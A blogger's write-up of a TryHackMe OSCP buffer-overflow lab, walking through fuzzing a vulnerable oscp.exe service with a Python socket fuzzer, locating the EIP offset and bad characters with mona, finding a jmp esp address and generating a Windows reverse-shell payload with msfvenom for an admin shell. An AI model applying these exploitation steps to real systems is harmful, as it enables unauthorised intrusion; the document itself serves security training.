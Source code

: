 # Summary
In this room we will investigate a .exe file for buffer overflow exception. I was looking forward to this subject as it brings a whole new dimension to pentesting. We will be using Immunity Debugger with mona and will some scripts during the process.

Untill now I used ILSpy to reverse engineer C# applications but I've never had to work on a memory level like this before. Lot's to learn!

> Download Immunity Debugger from: https://www.immunityinc.com/.
> You simple drop mona.py into the PyCommands folder inside the Immunity Debugger application folder. Mona can be downloaded from https://github.com/corelan/mona.

> Note: Be sure to have both x86 and x64 VM's of Windows ready during OSCP as you can't debug x86 applications on a x64 architecture.


# Preparation
We start by connecting with xfreerdp and setting the network to home. After that we'll start Immunity Debugger and setup a working folder in mona:
```
!mona config -set workingfolder c:\mona\%p
```
Load the oscp.exe file in Immunity Debugger and start the program with ```F9```. We will now have the service running. 
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/1.png">

After a quick portscan we see that the application is running on port 1337. We connect with the application using netcat and discover that we can send commands using: ```OVERFLOW1 [value]```.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/2.png">

# Fuzzing
We will use a fuzzer (01-fuzzer.py) to see if we can break the application by sending an increasingly amount of bytes. This will be done by sending ```A``` a hundred times and repeat that process untill we get a notification that the application crashed.

```py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.46.150"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024) 
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024) 
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

We crashed the application around 2000 bytes. We will use this later on to detect the memory offset of the EIP location as a starting point for our exploit.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/3.png">


# Crash replication & Controlling EIP
We will create a cyclic pattern of a length 400 greater than 2000 as those extra bytes will hold our payload (reverse shell) later on:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
We paste the output as buffer in 02-offset.py and run the script.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/4.png">

Run the following command to find the exact EIP offset
```
!mona findmsp -distance 2400
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/5.png">
The EIP offset is 1978.


# Finding Bad Characters
Before we can send our payload we need to make sure it doesn't hold any bad characters that will have a bad impact on the application. The zero byte (```\x00```) is one example of a bad char. This is a null-byte which will terminate the rest of the application code. We need to remove those from our payload.

> Method: At first we'll create a bin file of the current state of the program and crash it with bad chars. After that we will compare the memory enabling us to find the bad chars. We will repeat this process untill there are no more bad chars found.

So first we create the bin file with mona:
```
!mona bytearray -b "\x00"
```

Then we'll create a set of chars with Python (createbadchars.py):
```py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

We add the characters to 03-badchar.py and change the EIP offset. 
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/6.png">

Run 03-badchar.py and note the ESP after the crash (it's in the CPU windows). Compare it with the bin:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/7.png">

Remove bad char from file and create new bin without bad chars:
```
!mona bytearray -b "\x00\x07"
```
Repeat these steps untill there are no more bad chars and the status is Unmodified.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/8.png">


# Finding a Jump Point
This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/9.png">
We take the first address and reverse it as it's little-endian.

```
xaf/x11/x50/x62
```
This will be used as retn parameter in our exploit.

# Generate Payload
We generate the payload with msfvenom and add the bad chars as parameter.
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\x07\x2e\xa0' EXITFUNC=thread -f python -v payload
```
Add the output as payload in 04-exploit.py

# Prepend NOPS
As the payload is encoded we need some space in memory to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (```\x90```) bytes:
```
padding = "\x90" * 16
```

# Exploit
After setting all parameters in 04-exploit.py we're finally ready to run our exploit against the target:
```
python 04-exploit.py
```
With our listener ready this will results in a reverse shell and because the application runs as admin we now have admin rights on the host.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/OSCP%20Buffer%20Overflow/assets/10.png">

# Conclusion
Had a lot of fun doing this room. Learned a lot about memory allocation but still have the feeling I'm only scratching the surface.



